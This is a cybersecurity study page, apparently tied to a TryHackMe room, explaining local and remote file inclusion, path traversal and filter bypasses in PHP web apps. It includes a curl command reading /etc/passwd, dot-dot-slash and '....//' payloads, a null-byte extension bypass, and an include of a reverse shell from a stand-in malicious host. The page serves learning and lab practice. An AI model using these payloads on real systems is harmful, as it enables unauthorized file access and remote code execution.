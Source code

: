 # Files/Paths exploits

[![fileinc](../../../_badges/thmp/fileinc.svg)](https://tryhackme.com/room/fileinc)

<div class="row row-cols-md-2"><div>

Warning ⚠️. You should use tools such as Burp Suite or `curl` to craft your payload and test if a form is vulnerable. You shouldn't trust that if you enter the path `/etc/passwd`, then this will be what is sent to the server, as some magic might happen in your browser (encoding...).

Another advantage of using tools is to bypass JavaScript filters!
</div><div>

* See [Burp Suite](/_cybersecurity/exploitation/web/burpsuite/index.md) (the repeater being appropriate)
* or using `curl`

```bash
# POST FORM
$ curl URL/vulnerable.php -d 'file=/etc/passwd' -H 'Content-Type: application/x-www-form-urlencoded'
```
</div></div>

<hr class="sep-both">

## File Inclusion

<div class="row row-cols-md-2"><div>

Files inclusion refers to websites that are importing <small>(`import/require` in PHP)</small> a file using the user input. For instance: `http://malicious.site/?lang=FR` that is doing an include using `$_GET["lang"]`.

If there is an include with no filtering, we can enter a path 

```php
include "lang/$_GET[lang].php"
```
</div><div>

**Local File Inclusion (LFI)** 🏠: inject a local file

```php
// you uploaded a reverse shell (a fake PNG)
// as your avatar (avatar.png), then
include "lang/../uploads/avatar.png"
```

**Remote File Inclusion (RFI)** ✈️: inject a remote file

```php
// allow_url_fopen MUST BE SET TO true
include "http://malicious.site/reverse_shell.php"
```
</div></div>

<hr class="sep-both">

## Path/directory traversal

<div class="row row-cols-md-2"><div>

This is an attack where a hacker will manage to access files/folders that were not supposed to be available for users by exploiting the application. 

In PHP for instance, developers may be use `file_get_contents(URL)` to download an avatar for instance given a URL. The problem is that this kind of function may be used to access a local file. If the file is displayed, or stored somewhere where you can read it such as in `/uploads`, then you may be able to 

* test if a port is open
* access private files such as `/etc/passwd` or `windows/win.ini`
* ...
</div><div>

For instance, a URL such as `http://example.com/image-preview.php?url=...` that is supposed to display an image given a URL, may be vulnerable to path traversal.

You can use the **dot-dot-slash attack**, and give a URL such as `../../../../../etc/passwd`. Note that `/../` is `/`, so if you add more `../` than needed, it's OK.
</div></div>

<hr class="sep-both">

## Bypass filters

<div class="row row-cols-md-2 mt-4"><div>

* If there is a function removing `../`, then you can craft a payload that will only work as expected once the input was filtered.

```
Input: ....//
Apply Filter: remove ../
Output: ../
```
</div><div>

* **PHP < 5.3.4**: if there was a constraint of a specific extension, you could use the **Null Byte** `%00` which indicates the end of a string.

```php
# bypass filter .md only
file=xxx.php%00.md
```

```php
include "xxx.cgi%00.php" // include xxx.cgi
```
</div></div>